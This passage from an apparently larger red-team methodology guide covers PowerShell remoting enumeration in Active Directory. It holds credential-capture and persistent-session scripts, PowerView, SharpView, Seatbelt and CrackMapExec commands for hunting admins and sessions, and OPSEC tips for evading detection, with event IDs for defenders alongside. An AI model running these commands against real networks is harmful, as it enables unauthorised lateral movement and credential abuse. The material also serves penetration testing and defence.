        $storedCreds = Get-StoredCredential -Target "PowerShellRemoting" -ErrorAction SilentlyContinue
        
        if ($storedCreds) {
            Write-Host "✓ Stored credentials found" -ForegroundColor Green
            return $storedCreds
        } else {
            Write-Host "✗ No stored credentials found" -ForegroundColor Red
        }
        
        # Create credential object
        $credential = Get-Credential -Message "Enter credentials for remote connections"
        
        if ($credential) {
            Write-Host "✓ Credentials captured successfully" -ForegroundColor Green
            
            # Test credential with a remote system
            $testComputer = "US-DC01"
            try {
                $testSession = New-PSSession -ComputerName $testComputer -Credential $credential -ErrorAction Stop
                
                if ($testSession) {
                    Write-Host "✓ Credential test successful with $testComputer" -ForegroundColor Green
                    Remove-PSSession -Session $testSession
                }
            }
            catch {
                Write-Host "✗ Credential test failed: $($_.Exception.Message)" -ForegroundColor Red
            }
            
            return $credential
        } else {
            Write-Host "✗ No credentials provided" -ForegroundColor Red
            return $null
        }
    }
    catch {
        Write-Warning "Credential management failed: $($_.Exception.Message)"
        return $null
    }
}

# Manage credentials
$remoteCreds = Manage-RemoteCredentials
```

### 2. Session Persistence and Cleanup
```powershell
# Maintain persistent remote sessions
function Maintain-PersistentSessions {
    param(
        [string[]]$ComputerNames,
        [System.Management.Automation.PSCredential]$Credential = $null
    )
    
    try {
        Write-Host "Maintaining persistent remote sessions..." -ForegroundColor Yellow
        
        $persistentSessions = @{}
        
        foreach ($computer in $ComputerNames) {
            Write-Host "Establishing persistent session with: $computer" -ForegroundColor Cyan
            
            try {
                # Create session with retry logic
                $maxRetries = 3
                $retryCount = 0
                $session = $null
                
                while ($retryCount -lt $maxRetries -and -not $session) {
                    try {
                        if ($Credential) {
                            $session = New-PSSession -ComputerName $computer -Credential $Credential -ErrorAction Stop
                        } else {
                            $session = New-PSSession -ComputerName $computer -ErrorAction Stop
                        }
                        
                        if ($session) {
                            Write-Host "  ✓ Session established successfully (ID: $($session.Id))" -ForegroundColor Green
                            $persistentSessions[$computer] = $session
                        }
                    }
                    catch {
                        $retryCount++
                        Write-Host "  ✗ Attempt $retryCount failed: $($_.Exception.Message)" -ForegroundColor Red
                        
                        if ($retryCount -lt $maxRetries) {
                            Write-Host "  Retrying in 5 seconds..." -ForegroundColor Yellow
                            Start-Sleep -Seconds 5
                        }
                    }
                }
                
                if (-not $session) {
                    Write-Host "  ✗ Failed to establish session after $maxRetries attempts" -ForegroundColor Red
                }
                
            }
            catch {
                Write-Host "  ✗ Session establishment failed: $($_.Exception.Message)" -ForegroundColor Red
            }
            
            Write-Host ""
        }
        
        Write-Host "Persistent sessions established: $($persistentSessions.Count)" -ForegroundColor Green
        
        return $persistentSessions
    }
    catch {
        Write-Warning "Persistent session maintenance failed: $($_.Exception.Message)"
        return @{}
    }
}

# Cleanup function for all sessions
function Cleanup-AllSessions {
    try {
        Write-Host "Cleaning up all PowerShell remoting sessions..." -ForegroundColor Yellow
        
        # Get all sessions
        $allSessions = Get-PSSession
        
        if ($allSessions.Count -eq 0) {
            Write-Host "No active sessions found" -ForegroundColor Cyan
            return
        }
        
        Write-Host "Found $($allSessions.Count) active sessions" -ForegroundColor Cyan
        
        # Remove all sessions
        foreach ($session in $allSessions) {
            try {
                Remove-PSSession -Session $session -ErrorAction Stop
                Write-Host "  ✓ Removed session to $($session.ComputerName)" -ForegroundColor Green
            }
            catch {
                Write-Host "  ✗ Failed to remove session to $($session.ComputerName): $($_.Exception.Message)" -ForegroundColor Red
            }
        }
        
        Write-Host "Session cleanup completed!" -ForegroundColor Green
    }
    catch {
        Write-Warning "Session cleanup failed: $($_.Exception.Message)"
    }
}

# Maintain persistent sessions
if ($remoteCreds) {
    $persistentSessions = Maintain-PersistentSessions -ComputerNames @("US-DC01", "US-WS001") -Credential $remoteCreds
}

# Cleanup function call (uncomment when ready to clean up)
# Cleanup-AllSessions
```

## OPSEC Considerations

### 1. Stealth Techniques
- **Session Management**: Minimize the number of active sessions
- **Command Execution**: Use native commands when possible
- **Timing**: Spread operations over time to avoid detection
- **Logging**: Be aware of remote command logging on target systems

### 2. Detection Avoidance
- **Event Logging**: Understand what gets logged on remote systems (Event ID 4688, 4104)
- **Network Monitoring**: Consider network traffic patterns and timing
- **Session Cleanup**: Properly close and clean up sessions
- **Credential Security**: Secure credential storage and transmission

### 3. Event IDs to Monitor
- **4688**: Process creation (remote command execution)
- **4104**: PowerShell script block logging
- **4624**: Successful logon (remote session creation)
- **4625**: Failed logon attempts
- **4778**: Session reconnection to a window station
- **4779**: Session disconnection from a window station

## Best Practices

### 1. Session Management
- **Limit Sessions**: Only create sessions when needed
- **Proper Cleanup**: Always remove sessions after use
- **Error Handling**: Implement proper error handling for remote operations
- **Credential Security**: Secure credential management

### 2. Remote Operations
- **Efficient Commands**: Use efficient, targeted commands
- **Batch Operations**: Group related operations together
- **Result Processing**: Process results locally when possible
- **Monitoring**: Monitor remote system impact

### 3. Security Considerations
- **Credential Protection**: Never hardcode credentials
- **Session Security**: Use encrypted sessions when possible
- **Access Control**: Ensure proper access controls are in place
- **Audit Logging**: Maintain audit logs of remote operations

## Related Objects
- [Computer Enumeration](./07_Computer_Enumeration.md)
- [User Enumeration](./05_User_Enumeration.md)
- [Network Enumeration](./02_Network_Enumeration.md)
- [Registry Enumeration](./18_Registry_Enumeration.md)

## Navigation
- [Master Index](../00_MASTER_INDEX.md)
- [Enumeration Index](./00_Enumeration_Index.md)

## See Also
- [Kerberos Enumeration](./23_Kerberos_Basic_Enumeration.md)
- [Time Based Enumeration](./21_Time_Based_Enumeration.md)
- [WMI Enumeration](./20_WMI_Enumeration.md)

---

**Tags**: #PowerShellRemoting #ActiveDirectory #AD #Enumeration #RemoteExecution #PowerShell #WinRM #PSRemoting

---

## At‑a‑Glance

### Command Quick‑Reference
| Tool | Purpose | Example | Notes |
| - | - | - | - |
| Test-WSMan | WSMan probe | Test-WSMan -ComputerName dc01 | Signed
| Enter-PSSession | Interactive | Enter-PSSession -ComputerName dc01 | Live
| Invoke-Command | Fan-out | Invoke-Command -ComputerName dc01 -ScriptBlock { hostname } | Parallel
| Set-Item WSMan: | Allow remoting | Set-Item WSMan:\localhost\Service\AllowUnencrypted $true | Config
| Enable-PSRemoting | Configure | Enable-PSRemoting -SkipNetworkProfileCheck -Force | Admin

### Pivot Matrix
| Finding | Pivot To | Goal |
| - | - | - |
| WSMan reachable | 07_Computer_Enumeration.md | Host inventory
| Creds valid | 05_User_Enumeration.md | Account scope
| Constrained endpoints | 11_SOAPHound_Enumeration.md | ADWS/SOAP route
| Kerberos fail, NTLM ok | 23_Kerberos_Basic_Enumeration.md | Ticketing fixes
| PS sessions on servers | 12_Session_Enumeration_Index.md | Session hunts

### Stealth Profiles
| Profile | Actions | Delay (jitter) | Method |
| - | - | - | - |
| Stealth | Test-WSMan only | 4–8 s | Signed probe
| Balanced | + limited IC | 2–5 s | Targeted IC
| Lab | Fan-out IC | 1–3 s | Wide parallel

## Fictional Use Case: CyberCorp (Progressive Storyline)
**User Persona**: Elena Morozov, Automation Engineer (Limited User Account)
**Progression**: From probes to targeted remote execution on approved servers

```powershell
# Phase 1: Probe (stealth)
Test-WSMan -ComputerName us-app01

# Phase 2: Targeted commands
Invoke-Command -ComputerName us-app01 -ScriptBlock { whoami; hostname }

# Phase 3: Host set
$servers = 'us-app01','eu-app02'
Invoke-Command -ComputerName $servers -ScriptBlock { Get-Service winrm }
```

## Canonical Remoting Commands
```powershell
# Probe
Test-WSMan -ComputerName TARGET -Authentication Default

# Interactive
Enter-PSSession -ComputerName TARGET -Authentication Negotiate

# Batch
$targets | ForEach-Object { Invoke-Command -ComputerName $_ -ScriptBlock { Get-Process -Name lsass -ErrorAction SilentlyContinue } }
```

### Findings → Pivots


## Remoting Architecture


## Lab vs Production
- Stealth: probe only; no interactive; log correlation minimal.
- Balanced: invoke on approved hosts; minimize output; no heavy scripts.
- Lab: parallel fan-out; long scriptblocks; full outputs.

## Detection (concise)
- Windows logs: Microsoft-Windows-WinRM/Operational; Security 4624/4672 on remote.
- Heuristics: simultaneous remoting to many hosts; unusual endpoints use.

## OPSEC (concise)
- Use signed cmdlets; scope hosts; add delays; prefer Kerberos; avoid CredSSP.

## Cleanup
```powershell
Remove-Item .\ic_*.json -ErrorAction SilentlyContinue
```

---

## 🛠️ **COMPREHENSIVE ENUMERATION TOOLS**

### **🔧 Microsoft-Signed Tools**
- **Microsoft AD Module**: Remoting-related computer and user analysis
- **Get-ADComputer**: Computer enumeration for remoting targeting
- **Get-ADUser**: User enumeration for remoting access analysis
- **Get-ADGroup**: Group membership analysis for remoting permissions

### **⚔️ Offensive Tools (PowerView, etc.)**
- **PowerView Suite**: Comprehensive remoting enumeration and user hunting
- **Get-NetComputer**: Target discovery by OS/role
- **Get-NetSession**: Session discovery on targets
- **Invoke-UserHunter**: Hunt users across hosts

### **🔴 Red Team Enumeration Tools**

#### **🔍 PowerView - Remoting Discovery & Hunting**
Setup: Download PowerView.ps1
Commands and Explanations:
```powershell
# Enumerate Windows hosts; quickly focus on servers vs workstations
Get-NetComputer -FullData | Where-Object {$_.OperatingSystem -like '*Windows*'} |
  Select-Object Name,OperatingSystem

# Scope only servers (good remoting candidates)
Get-NetComputer -FullData | Where-Object {$_.OperatingSystem -like '*Server*'} |
  Select-Object Name,OperatingSystem

# Check sessions on a target (look for admins)
Get-NetSession -ComputerName 'DC01.corp.local' |
  Where-Object {$_.sesi2_cname -like '*admin*'}

# Hunt a specific user to plan remoting pivots
Invoke-UserHunter -UserName 'Administrator'
```

#### **🔍 SharpView - Compiled PowerView (C#)**
Setup: Download SharpView.exe
Commands and Explanations:
```cmd
# Enumerate potential remoting targets
SharpView.exe Get-NetComputer -FullData

# Check sessions on a host
SharpView.exe Get-NetSession -ComputerName DC01.corp.local

# User hunting
SharpView.exe Invoke-UserHunter -UserName Administrator
```

#### **🧭 Seatbelt - Situational Awareness**
Commands and Explanations:
```cmd
# General reconnaissance with minimal noise
Seatbelt.exe all -q -o results.txt

# Focused modules to validate remoting posture
Seatbelt.exe Processes
Seatbelt.exe Services
Seatbelt.exe LoggedOnUsers
```

#### **🔍 CrackMapExec (CME)**
Commands and Explanations:
```bash
# Probe SMB + enumerate sessions quickly
crackmapexec smb targets.txt -u username -p password --sessions

# Validate local admin (useful before remoting)
crackmapexec smb targets.txt -u username -p password --local-auth
```

---

## Cross‑References
- Next: [20_WMI_Enumeration.md](./20_WMI_Enumeration.md)
- Related: [12_Session_Enumeration_Index.md](./12_Session_Enumeration_Index.md), [11_SOAPHound_Enumeration.md](./11_SOAPHound_Enumeration.md), [23_Kerberos_Basic_Enumeration.md](./23_Kerberos_Basic_Enumeration.md)

---

[Prev: 18_Registry_Enumeration.md](./18_Registry_Enumeration.md) | [Up: Index](./00_Enumeration_Index.md) | [Hub](./00_Methodology_Hub.md) | [Next: 20_WMI_Enumeration.md](./20_WMI_Enumeration.md)
